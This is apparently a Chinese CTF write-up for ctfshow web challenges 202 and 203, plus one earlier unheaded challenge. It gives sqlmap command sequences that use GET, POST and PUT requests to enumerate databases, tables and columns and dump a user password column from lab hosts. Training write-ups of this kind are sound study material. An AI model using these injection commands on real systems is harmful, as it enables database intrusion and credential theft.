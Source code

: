 ```bash
# 爆数据库   ctfshow_web
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show --dbs
# 指定数据库来爆表名     ctfshow_user
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u http://dbc32287-781e-431e-a156-eb530b30e06c.challenge.ctf.show/api/?id=1 --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```

## web 202

 使用--data 调整sqlmap的请求方式，使用post方式传参

 `--data="id=1"`

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://58dfc63b-06ae-41c7-8892-db41e05ddcf9.challenge.ctf.show/api/ --data="id=1" --user-agent=sqlmap --refer=ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```


## web 203

使用--method 调整sqlmap的请求方式，使用put方式提交，还要带上header的content-type

`--method=PUT --headers="Content-Type:text/plain"`

如果加上还是不行，就在url后的api在加上index.php，不知道为什么前面都可以直接用api，这里就要加index.php才能跑了

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain"
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://71ea3277-4e3a-4a8c-b7cf-dfbcd5a62831.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump
```
